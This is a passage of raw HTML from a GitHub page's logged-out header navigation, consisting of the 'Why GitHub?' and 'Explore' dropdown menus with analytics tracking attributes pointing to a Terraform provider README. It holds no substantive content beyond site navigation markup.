              <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <details class="HeaderMenu-details details-overlay details-reset width-full">
      <summary class="HeaderMenu-summary HeaderMenu-link px-0 py-3 border-0 no-wrap d-block d-lg-inline-block">
        Why GitHub?
        <svg x="0" y="0" viewBox="0 0 14 8" xml:space="preserve" fill="none" class="icon-chevon-down-mktg position-absolute position-lg-relative"><path d="M1,1l6.2,6L13,1"></path></svg>
      </summary>
      <div class="dropdown-menu flex-auto rounded px-0 mt-0 pb-4 p-lg-4 position-relative position-lg-absolute left-0 left-lg-n4">
        <ul class="list-style-none f5 pb-1">
              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Features&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Features;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="3d2934fca1ffabfae6a4dc2c75b0232e8fd7526e9280b1244b0015171e374f30" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Features&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Features;&quot;}" href="/features">
      Features <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Mobile&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Mobile;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="db01834bf864dcdee096c8acaf81a8aef9b27c4a56177d929bd20aaa41805689" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Mobile&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Mobile;&quot;}" href="/mobile">
      Mobile <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Actions&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Actions;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="61e5ca36047fdade3243499af4451ffc2e26a8b4bdaa63f9d4db972c894b228b" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Actions&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Actions;&quot;}" href="/features/actions">
      Actions <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Codespaces&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Codespaces;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="e342f364d4a07fd5c0cf95755de72f8df47d92d7756bccf2f86b89856eb2537d" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Codespaces&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Codespaces;&quot;}" href="/features/codespaces">
      Codespaces <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Packages&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Packages;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="de5f8c024cacae8be105bde145761034e95c14a8e51fd01a09bb56542e7a3550" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Packages&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Packages;&quot;}" href="/features/packages">
      Packages <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Security&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Security;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="dc502781dc2266710f22dd90c3ae3fed23468df08680380c7954bc2df4960bcb" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Security&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Security;&quot;}" href="/features/security">
      Security <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Code review&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Code review;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="e71a3f12ba61b3feedd0827517e23ca5f46c62ada217981e54c0f465b55c3835" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Code review&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Code review;&quot;}" href="/features/code-review">
      Code review <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Issues&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Issues;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="d8d68e567893129cb333306f908b3988197ca235dee4712a6a8e252b19066c9c" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Issues&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Issues;&quot;}" href="/features/issues">
      Issues <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Integrations&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Integrations;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="5334247932b9991c041dafacea7deded1b57710e6812e521f53eb72f6d784d87" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Integrations&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Integrations;&quot;}" href="/features/integrations">
      Integrations <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold border-top pt-4 pb-2 mt-3" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to GitHub Sponsors&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Sponsors;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="4d266cacb7f1fb45f01c14a1769c134ed36ef947a9fb25ef4f5239fef912b2f2" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to GitHub Sponsors&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Sponsors;&quot;}" href="/sponsors">
      GitHub Sponsors <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Customer stories&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Customer stories;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="1909911ee0d925962316b815f434042df2b9603c92b996e8d7ccfab8b0059c3b" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Why GitHub?&quot;,&quot;action&quot;:&quot;click to go to Customer stories&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Customer stories;&quot;}" href="/customer-stories">
      Customer stories <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

        </ul>
      </div>
    </details>
</li>


              <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <a class="HeaderMenu-link no-underline py-3 d-block d-lg-inline-block" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Team&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Team;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="b1c7bf41b30f5f243295f84b3fb91fcfef1326f443f1144a5212b890481a7405" data-analytics-event="{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Team&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Team;&quot;}" href="/team">Team</a>
</li>

              <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <a class="HeaderMenu-link no-underline py-3 d-block d-lg-inline-block" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Enterprise&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Enterprise;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="3a49fb79437bd3542d65c7958968cb1ba0861d87023effc775a495c0d08c9797" data-analytics-event="{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Enterprise&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Enterprise;&quot;}" href="/enterprise">Enterprise</a>
</li>


            <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <details class="HeaderMenu-details details-overlay details-reset width-full">
      <summary class="HeaderMenu-summary HeaderMenu-link px-0 py-3 border-0 no-wrap d-block d-lg-inline-block">
        Explore
        <svg x="0" y="0" viewBox="0 0 14 8" xml:space="preserve" fill="none" class="icon-chevon-down-mktg position-absolute position-lg-relative"><path d="M1,1l6.2,6L13,1"></path></svg>
      </summary>
      <div class="dropdown-menu flex-auto rounded px-0 mt-0 pb-4 p-lg-4 position-relative position-lg-absolute left-0 left-lg-n4">
        <ul class="list-style-none f5 pb-1">
              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Explore GitHub&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Explore GitHub;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="516dc3a9b11239bc9c265ba34f1d93594cd1555c83a896a6aa2b184c29fd7fa3" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Explore GitHub&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Explore GitHub;&quot;}" href="/explore">
      Explore GitHub <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li class="color-fg-muted text-normal f6 text-mono mb-1 border-top pt-3 mt-3 mb-1">Learn and contribute</li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Topics&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Topics;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="6ddff4f3fc7a11baed04d914a478dcfe8ab082883c662f54384c1ef4b7ba11b3" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Topics&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Topics;&quot;}" href="/topics">
      Topics <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Collections&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Collections;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="cb31ea4f5dc242f5aa1a764c5b369e6b5525396032ac26012460bd3083240487" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Collections&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Collections;&quot;}" href="/collections">
      Collections <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Trending&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Trending;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="09998e8175a0172a8c1ebf7f52bf499256f608ff737f1b19616d611fe874e229" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Trending&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Trending;&quot;}" href="/trending">
      Trending <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Learning Lab&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Learning Lab;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="5917ebe3005d9bbbd5807f139695843fefbe51bf72c460a68164005e40db4d06" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Learning Lab&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Learning Lab;&quot;}" href="https://lab.github.com/">
      Learning Lab <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Open source guides&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Open source guides;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="533e7a8eaac75c80f54e614fda3e21253a8e8f50cfe5eca5eba3df3507f88176" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Open source guides&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Open source guides;&quot;}" href="https://opensource.guide">
      Open source guides <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li class="color-fg-muted text-normal f6 text-mono mb-1 border-top pt-3 mt-3 mb-1">Connect with others</li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to The ReadME Project&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:The ReadME Project;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="80b7210b7854ef41aafbdc06bc89099cd8e45063d406f0ceef705550545b5d12" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to The ReadME Project&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:The ReadME Project;&quot;}" href="/readme">
      The ReadME Project <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Events&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Events;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="441acc0ba7001fdf8ad5196197f483a3af4bbebc18c2e27a197fcd3c904219e1" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Events&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Events;&quot;}" href="/events">
